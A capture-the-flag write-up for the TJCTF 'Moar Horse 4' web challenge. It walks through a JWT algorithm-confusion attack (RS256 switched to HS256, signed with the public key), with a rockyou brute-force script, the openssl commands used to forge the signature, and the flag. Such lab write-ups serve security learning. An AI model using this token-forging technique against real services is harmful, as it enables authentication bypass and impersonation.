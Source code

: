 **MOAR HORSE 4** 


**Category:** Web
**Concepts:** jwt, jwt algorithms, md5

**Problem Statement:**
It seems like the TJCTF organizers are secretly running an [underground virtual horse racing platform](https://moar_horse.tjctf.org/)! They call it 'Moar Horse 4'... See if you can get a flag from it!

*source included*
Source includes: server.py(flask), templates, pubkey.pem(public key)

**Hints**
None


![image](../images/mh41.png)

The source is etremely helpful in this one. It reveals 2 things:
1. There is no check on the JWT algorithm while reading. While making the jwt, it uses RS256 algorithm(requires public-private key combination).
2. The horse speed is md5("Horse_" + horsename).

The horse to beat is MechaOmkar-YG6BPRJM. All the horses you can buy through the website generate hash value less than that of MechaOmkar.

The source code tells that the horsenames are taken from the JWT and there is no check on whether those horses are buy-able.

Part 1 Get the horsename: In order to win, I need to have my horse speed > that of MechaOmkar. I ran a python script over good ol' rockyou to do that and got `panchito00`

```python
import hashlib

words = open("rockyou.txt","r").read().split("\n")
for word in words:
	try:
		if int(hashlib.md5(("Horse_" + word).encode()).hexdigest(), 16) > 340282329007027273925800828829408515216:
			print(word)
			break
	except:
		continue
```
Part 2 Forge the JWT: Now I needed to find a way to include this horsename in my jwt and sign it. I had a look at the validate_token function in the source
```python
def validate_token(token):
    try:
        data = jwt.decode(token, PUBLIC_KEY)
        return all(attr in data for attr in ["user","is_omkar","money","horses"]), data
    except:
        return False, None
```
There it was! The function did not check for the token's algorithm and just decoded it based on the public key, and they gave me the public key.
So, I changed the algorithm from RS256 to HS256(easier, 256 bit single key needed to sign as opposed to pub-priv key pair in RS256) and added my panchito00 horse.

Then, to sign the token,
1. Convert the pubkey into ascii text:

 `cat pubkey.pem | xxd -p | tr -d "\\n"`


2. Generate signature:
 
 `echo -n <unsigned modified JWT> | openssl dgst -sha256 -mac HMAC -macopt hexkey:<ascii text of the pubkey from step 1>`

 But this signature is ascii

3. Convert signature from ascii to jwt format:

 `python -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('db3a1b760eec81e029704691f6780c4d1653d5d91688c24e59891e97342ee59f')).replace('=','')\")"`

4. Sign the token:
 Just append `<unsigned modified JWT>` with . followed by the signature generated.

(The key sigining procedure is much better explained [here](https://www.nccgroup.com/uk/about-us/newsroom-and-events/blogs/2019/january/jwt-attack-walk-through/))

Now, I replaced the website token with this forged token and my horse got added. Clicked race and my horse won, and I got the flag.


**FLAG:** tjctf{w0www_y0ur_h0rs3_is_f444ST!}